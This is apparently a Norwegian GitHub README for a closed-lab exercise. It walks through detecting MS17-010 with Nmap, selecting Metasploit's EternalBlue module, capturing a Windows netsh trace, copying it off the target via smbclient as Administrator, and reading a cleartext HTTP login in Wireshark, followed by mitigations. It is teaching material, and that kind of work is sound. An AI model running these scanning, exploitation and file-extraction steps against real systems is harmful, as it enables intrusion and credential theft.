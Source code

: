 # MS17-010 (EternalBlue) + nettverksspor — lab

Denne laben demonstrerer en helhetlig sikkerhetstest i et **lukket** miljø:
1) identifikasjon av sårbar **SMBv1 / MS17-010**,  
2) utnyttelse-flyt (funn → modulvalg → kjøring),  
3) innsamling av **nettverksspor** på Windows med `netsh trace`,  
4) eksport/konvertering til PCAP og **analyse i Wireshark** som viser en HTTP-innlogging i klartekst.

> **Etikk:** Dette er kun en kontrollert demo i eget labnett. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Maskér alltid sensitive verdier (brukernavn, passord, tokens, interne IP-er).

---

## Overblikk

**Angriper (Kali) – IP**
![attacker ip](images/attacker-ip.png)

**Intern webapp – landingsside**
![web home](images/webapp-home.png)

**Intern webapp – innlogget oversikt**
![web messages](images/webapp-messages.png)

**Windows (mål/klient) – oversikt**
![windows admin](images/windows-admin.png)

### Mål med øvelsen
- **Verifisere sårbarhet**: Påvise MS17-010 på målmaskinen.
- **Utnytte kontrollert**: Demonstrere at sårbarheten kan gi kjøring/skall i lab.
- **Fange bevis**: Samle Windows-nettverksspor (ETL), eksportere og konvertere til PCAP/PCAPNG.
- **Analysere risiko**: Vise at en HTTP-pålogging kan leses i klartekst i Wireshark.

### Miljø og verktøy
- **Angriper**: Kali Linux  
- **Mål/klient**: Windows med SMBv1 aktivert (sårbar for MS17-010)  
- **Øvrig**: Windows-VM som besøker webappen
- **Verktøy**: Nmap, Metasploit, `netsh trace`, etl2pcapng, editcap, Wireshark

---

## A) Kartlegging og sårbarhetsindikasjon

**Nmap MS17-010 (NSE) – sårbar vert oppdaget**
```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```
![nmap ms17-010](images/nmap-ms17-010.png)

**Metasploit i gang + modulvalg (EternalBlue)**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
```
![msf banner](images/msfconsole-banner.png)  
![msf search](images/msf-search-eternalblue.png)

---

## B) Innsamling av nettverksspor på Windows

**Start sporing med `netsh trace` (ETL)**
```cmd
netsh trace start capture=yes tracefile=C:\50309\net_trc.etl level=verbose
```
![trace start](images/netsh-trace-start.png)

**Stopp og lagre sporet**
```cmd
netsh trace stop
```
![trace stop](images/netsh-trace-stop.png)

*Hvorfor `netsh trace`?* Det er innebygd i Windows og egner seg når du ikke kan installere Wireshark på målmaskinen. Det produserer en **.etl** som må konverteres før analyse i Wireshark.

---

## C) Hente ut og konvertere spor

**Eksfiltrer ETL-filen fra Windows**  
(her via SMB fra Kali – andre sikre metoder fungerer også)
```bash
smbclient //192.168.x.x/50309 -U Administrator
get net_trc.etl
```
![trace exfil](images/trace-exfil.png)

**Konverter `.etl` → `.pcapng` (Windows)**
```powershell
.\etl2pcapng.exe C:\...\net_trc.etl C:\...\net_trc.pcapng
```
![etl2pcapng](images/etl2pcapng-convert.png)

**(Valgfritt) `.pcapng` → `.pcap` for kompatibilitet**
```bash
editcap -F pcap ~/Desktop/net_trc.pcapng ~/Desktop/net_trc.pcap
```
![editcap](images/editcap-convert.png)

---

## D) Analyse i Wireshark

Filtrer på **HTTP** og finn POST-forespørselen. I denne labben går trafikken ukryptert (ingen TLS), og innloggingsdataene fremstår derfor i klartekst.

![wireshark creds](images/wireshark-credentials.png)

**Leseguide:**
- Øverst: HTTP-pakker (200/302/POST).  
- Midt: *Hypertext Transfer Protocol*-panelet med POST-felter (brukernavn/pass).  
- Høyre: hex-visning (ikke nødvendig å vise i klartekst dersom passord sladdes).

---

## Hvorfor teknikken virker (kort forklaring)

- **MS17-010 / EternalBlue** utnytter en feil i **SMBv1** som muliggjør fjernkodekjøring.  
- **`netsh trace`** fanger nettverks-I/O på verts-siden til en ETL. Med **etl2pcapng** (og ev. **editcap**) kan sporet åpnes i **Wireshark**.  
- **HTTP uten TLS** innebærer at **brukernavn og passord** kan leses i klartekst i nettverkssporet.

---

## Forsvar og avbøtende tiltak

**Host / OS**
- Deaktiver **SMBv1** og patch **MS17-010** (oppdater OS).  
- Begrens administrative delinger/tilganger; prinsippet om minste privilegium.

**Nettverk**
- Segmentér SMB til nødvendige soner; blokker uautorisert 445/tcp på tvers av segmenter.  
- Overvåk signaturer/indikatorer relatert til EternalBlue.

**Applikasjon / Bruker**
- Tving **HTTPS** (TLS) for all pålogging.  
- Innfør passordhygiene og MFA; detekter uvanlige innloggingsmønstre.

---

## Reproduser (høydenivå)

1. Kartlegg SMB på mål, bekreft MS17-010-indikasjon (Nmap NSE).  
2. Kjør en kontrollert utnyttelse i lab (Metasploit-flyt).  
3. Start `netsh trace`, gjenskape en **legitim** brukerhandling (HTTP-login), stopp sporet.  
4. Eksporter ETL, konverter til PCAP/PCAPNG, åpne i Wireshark og dokumentér funn.

> **Tips:** Maskér sensitive verdier i skjermbilder før publisering av repoet.

## Lisens
MIT
